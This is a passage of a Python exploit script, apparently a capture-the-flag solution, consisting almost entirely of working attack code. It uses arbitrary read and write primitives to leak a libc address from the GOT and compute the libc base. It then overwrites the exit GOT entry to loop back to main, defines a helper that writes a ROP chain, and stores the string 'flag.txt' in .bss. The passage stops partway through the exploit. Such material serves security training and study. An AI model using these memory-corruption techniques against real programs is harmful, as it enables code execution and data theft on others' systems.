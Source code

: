 ```Python
    first_half = addr & 0x00000000ffffffff
    write_int(location, first_half)
    useless_feedback()
    useless_read()
    second_half = addr & 0xffffffff00000000
    second_half = second_half >> 32
    write_int(location+4, second_half)
    useless_feedback()

#writes a rop chain to an arbitrary location
#only constraint is that the rop chain needs to have encoded addresses in multiples of 8 bytes:
def write_chain(location, chain) :
    idx = 0
    while idx < len(chain) :
        #take out the current address from the array and convert it to a normal integer:
        current_addr = u64(chain[idx:(idx+8)])
        #next write that address to the location:
        write_addr(location+idx, current_addr)
        idx += 8

def main() :    
    #first overwrite exit to the start of main so we get infinite reads/writes
    #leak part of the addr of puts
    read_int(0x0404028)
    unparsed_leak = sock.recvuntil("\n")
    #convert the first part of the leak to a string:
    #not really sure how %d deals with negative numbers so going to be quitting if we hit a negative value
    parsed_libc_leak = int(unparsed_leak.decode('utf-8'))
    if parsed_libc_leak < 0 :
        print("negative number")
        sock.close()
        return
    print("parsed first half of the leak? " + str(parsed_libc_leak))
    #next overwrite the addr of exit to point to main:
    write_int(0x0404060, 0x401264)
    #input junk to satisfy the feedback prompt
    sock.sendline("BBBB")
    #leak the upper half of puts:
    read_int(0x0404028 + 4)
    unparsed_leak = sock.recvuntil("\n")
    second_leak = int(unparsed_leak.decode('utf-8'))
    #put the two halves together:
    second_leak = second_leak << 32
    parsed_libc_leak += second_leak
    print("whole libc leak? " + hex(parsed_libc_leak))
    #process the libc leak to get libc base:
    libc_base = parsed_libc_leak - 0x875a0
    print("base? " + hex(libc_base))
    useless_write()
    #we'll trigger the exit stuff on the next run, so set up a rop chain:
    useless_feedback()
    #now write the string "flag.txt" to .bss
    #string will be located at 0x404078
    useless_read()
    write_int(0x404078, 0x67616c66)
    useless_feedback()
    useless_read()
    write_int(0x404078 + 4, 0x7478742e)
    useless_feedback()
    useless_read()
    write_int(0x404078 + 8, 0x0)
    useless_feedback()
```